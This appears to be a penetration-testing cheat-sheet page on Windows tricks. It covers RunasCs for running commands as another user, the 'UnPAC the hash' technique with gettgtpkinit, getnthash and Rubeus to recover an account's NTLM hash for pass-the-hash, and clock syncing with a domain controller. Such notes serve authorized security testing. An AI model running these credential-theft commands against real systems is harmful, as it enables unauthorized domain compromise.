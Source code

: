 ```yaml
---
description: List of useful tricks and utility for Windows.
---
```


# Windows

### RunasCs

RunasCs is an utility to run specific processes with different permissions than the user's current logon provides using explicit credentials.

> Github: [https://github.com/antonioCoco/RunasCs](https://github.com/antonioCoco/RunasCs)

```powershell
# compile RunasCs on the target with the available .NET version
# NET4
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe -target:exe -optimize -out:RunasCs.exe RunasCs.cs

# NET2
C:\Windows\Microsoft.NET\Framework64\v2.0.50727\csc.exe -target:exe -optimize -out:RunasCs_net2.exe RunasCs.cs

# run command as another user
.\RunasCs.exe <user> <password> <command>
```

### Unpac hash

When using `PKINIT` to obtain a TGT, the KDC include NTLM hash. It can be recovered to do pass-the-hash.

{% tabs %}
{% tab title="UNIX" %}
```bash
# UNIX
gettgtpkinit.py -cert-pfx "PATH_TO_CERTIFICATE" -pfx-pass "CERTIFICATE_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
export KRB5CCNAME="TGT_CCACHE_FILE"
getnthash.py -key 'AS-REP encryption key' 'FQDN_DOMAIN'/'TARGET_SAMNAME'
```
{% endtab %}

{% tab title="Windows" %}
```powershell
# Windows
./Rubeus.exe asktgt /getcredentials /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show
```
{% endtab %}
{% endtabs %}

> More information at [The Hacker Recipes](https://www.thehacker.recipes/ad/movement/kerberos/unpac-the-hash)

### Synchronising time with AD

```bash
# using ntpdate
sudo ntpdate -u <DC_IP>

# faketime
faketime '2023-12-20 02:13:00' <command>
faketime "2023-03-27 $(net time -S <DC_IP>|cut -d ' ' -f 4)" # Thanks to xThaz

# net time
sudo net time set -S <DC_IP>
```
